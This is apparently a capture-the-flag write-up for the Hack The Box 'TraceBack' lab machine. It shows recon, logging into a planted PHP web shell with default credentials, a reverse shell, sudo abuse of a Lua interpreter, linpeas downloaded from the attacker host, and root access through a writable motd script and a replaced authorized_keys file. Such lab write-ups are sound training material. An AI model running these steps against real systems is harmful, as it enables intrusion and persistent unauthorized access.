

# TraceBack

## HOST IP: 10.129.225.142

# RECON SERVICE

Performed an Nmap scan to identify active services on the host

```bash
┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 10.129.225.142
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# nmap -sV -sC -oA nmap/TraceBack 10.129.225.142 -p 22,80
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

22 ssh OpenSSH 7.6p1  
80 http Apache httpd 2.4.29



It appears that the host may have been previously compromised. Attempting to identify any potential backdoors.

Discovered a GitHub repository described 'Some of the Best Web Shells That You Might Need'

> https://github.com/TheBinitGhimire/Web-Shells

# EXPLOIT

Identified a list of PHP web shells, and confirmed that the page http://10.129.225.142/smevk.php is accessible.


Attempted to log in to the web shell using the default credentials (admin:admin), which successfully granted access.


Entered a reverse shell command in the web shell console and successfully established a connection to the attacker's host.


# POST EXPLOIT

Upgraded the shell to an interactive TTY session using the stty command.

```bash
webadmin@traceback:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 9999

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# stty raw -echo;fg
[1]  + continued  nc -nlvp 9999

webadmin@traceback:/var/www/html$


```

Identified the /home/sysadmin/luvit binary, which can be executed with sysadmin privileges.

```bash
webadmin@traceback:/home/webadmin$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.


webadmin@traceback:/var/www/html$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

```

The luvit binary can execute Lua code, allowing privilege escalation to the sysadmin user

```bash
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/bash")
sysadmin@traceback:/home/webadmin$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)

sysadmin@traceback:~$ cat user.txt
a4219219241480f30ec1d7c9b767d6b7
```

I can get sysadmin privilege and get userflag

run linpeas for recon privilege escaltion point

```bash
┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# wget https://github.com/peass-ng/PEASS-ng/releases/download/20250801-03e73bf3/linpeas.sh


sysadmin@traceback:/tmp$ wget http://10.10.14.76:7777/linpeas.sh
sysadmin@traceback:/tmp$ chmod +x linpeas.sh


╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt

echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

By initiating an SSH session, it was possible to execute code with root flag.  
Replaced the sysadmin user’s public key with the attacker’s public key to enable unauthorized SSH access.

```bash
sysadmin@traceback:~/.ssh$ echo 'ssh-ed25519 <mypublic key> root@kali' >  authorized_keys

┌──(root㉿kali)-[~/Hack_The_Box/TraceBack]
└─# ssh sysadmin@10.129.21.92
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

9c6079accc3a07a5ab365e4a12882ecb

```

Retrieved the root flag from the target system.

